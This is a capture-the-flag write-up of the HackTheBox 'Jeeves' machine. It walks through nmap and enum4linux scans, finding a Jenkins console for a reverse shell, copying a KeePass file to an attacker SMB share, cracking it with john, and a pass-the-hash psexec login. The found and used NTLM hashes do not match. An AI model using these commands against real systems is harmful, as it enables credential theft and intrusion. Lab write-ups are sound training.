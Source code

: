 ```yaml
---
title: Jeeves
date: 2023-12-21 02:09:47 +07:00
modified: 2023-12-21 02:09:47 +07:00
tags: [ Jeeves, Jenkins, enum4linux-ng, Bruteforce, CTF, datastream, smb, FileTransfer, PassTheHash, Keepass, kdbx, john, hashcat, CME, Windows, OSCP, Writeup]
description: Write Up for Hackthebox Machine Jeeves
---
```



![](https://photos.squarezero.dev/file/abir-images/htbasset/banner.png)



<img src="https://photos.squarezero.dev/file/abir-images/Jeeves/logo.png" style="margin-left: 20px; zoom: 60%;" align=left />    	<font size="10">Jeeves</font>

​		11<sup>th</sup> November 2017

​		Machine Author(s): [mrb3n](https://app.hackthebox.com/users/2984)

​		

### Description:

Jeeves is not overly complicated, however, it focuses on some interesting techniques and provides a great learning experience. As the use of alternate data streams is not very common, some users may have a hard time locating the correct escalation path.  

### Difficulty:

`Medium`


# Enumeration

First I check for available open ports.

`nmap -p- --min-rate=10000 10.10.10.63`

`nmap -sC -sV -p80,135,445,50000 10.10.10.63 -oA ./nmap/jeeves -Pn`

|Ports|Service
|80| msrpc Microsoft IIS httpd 10.0
|135| msrpc Microsoft Windows RPC
|445| Windows Server 2016 Standard 14393
|50000| Jetty 9.4.z-SNAPSHOT


![](https://photos.squarezero.dev/file/abir-images/Jeeves/1.png)

First I checked SMB server and there was no listing of anonymous sign-in.

![](https://photos.squarezero.dev/file/abir-images/Jeeves/2.png)

I also ran [Enum4linux-NG](https://www.kali.org/tools/enum4linux-ng/) to make sure and it also enumarate RPC for me.



`enum4linux-ng 10.10.10.63 -A -C`


![](https://photos.squarezero.dev/file/abir-images/Jeeves/3.png)

![](https://photos.squarezero.dev/file/abir-images/Jeeves/4.png)

Next, I visited port 80. It shows AskJeeves search but if something is searched on the toolbar it redirects to `/error.html?` . 

![](https://photos.squarezero.dev/file/abir-images/Jeeves/5.png)

![](https://photos.squarezero.dev/file/abir-images/Jeeves/6.png)

You can't click or select on the screen. After seeing the source code we can confirm it's just an image [jeeves.PNG]().

![](https://photos.squarezero.dev/file/abir-images/Jeeves/7.png)

Next, I visited port 50000. It gives a 404 error. 

![](https://photos.squarezero.dev/file/abir-images/Jeeves/8.png)



# Foothold

I did a [Dirsearch]() on both ports 80 & 500000 and found `/askjeeves` .

```bash
dirsearch -u http://10.10.10.63:50000 -w /usr/share/seclists/Discovery/Web-Content/raft-large-words-lowercase.txt -t 20 -f -e php,txt,html,aspx
```

![](https://photos.squarezero.dev/file/abir-images/Jeeves/9.png)

After visiting the directory we are met with the Jenkins dashboard.

![](https://photos.squarezero.dev/file/abir-images/Jeeves/10.png)

We can go to `/askjeeves/script` and find the script console. We can get a reverse shell using the following script.

![](https://photos.squarezero.dev/file/abir-images/Jeeves/11.png)

I set up Netcat listening on my local machine and after hitting run we can get a reverse shell.

![](https://photos.squarezero.dev/file/abir-images/Jeeves/12.png)

I got the user.txt

![](https://photos.squarezero.dev/file/abir-images/Jeeves/13.png)

# Privilege Escalation

After looking for a bit I found `CEH.kdbx` file. This is the [Keepass](https://keepass.info/) db file.

![](https://photos.squarezero.dev/file/abir-images/Jeeves/14.png)

I transferred the file using `impacket-smbserver`. 

Attacker Machine
`sudo impacket-smbserver share -smb2support /tmp/ -user test -password test`

Target Machine
`copy C:\Users\kohsuke\Documents\CEH.kdbx \\10.10.14.22\share\`

![](https://photos.squarezero.dev/file/abir-images/Jeeves/15.png)

I tried to open the file with [KeePassXC]() but it was password locked.


I extracted the password hash of the file and then brute-forced it with John().



`keepass2john CEH.kdbx >> hash.txt`

`john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt`

Password → `moonshine1`

![](https://photos.squarezero.dev/file/abir-images/Jeeves/16.png)

I used the credential to open the file and found an NTLM hash.

NTLM → `afbc5bd4b615a60648cec41c6ac92530`

![](https://photos.squarezero.dev/file/abir-images/Jeeves/17.png)

I used [PSEXEC]() to do a [PassTheHash]() attack to get into the admin user.

`psexec.py administrator@10.10.10.63 -hashes :e0fb1fb85756c24235ff238cbe81fe00`

![](https://photos.squarezero.dev/file/abir-images/Jeeves/18.png)

When I went to get the flag I saw a text to find the flag elsewhere.

![](https://photos.squarezero.dev/file/abir-images/Jeeves/19.png)

I checked for hidden files and found `hm.txt:root.txt:$DATA`.

![](https://photos.squarezero.dev/file/abir-images/Jeeves/20.png)

This is an alternative data stream. I the flag using Get-Content .

`powershell (Get-Content hm.txt -Stream root.txt).substring(0,32)`

or `more < hm.txt:root.txt`

![](https://photos.squarezero.dev/file/abir-images/Jeeves/21.png)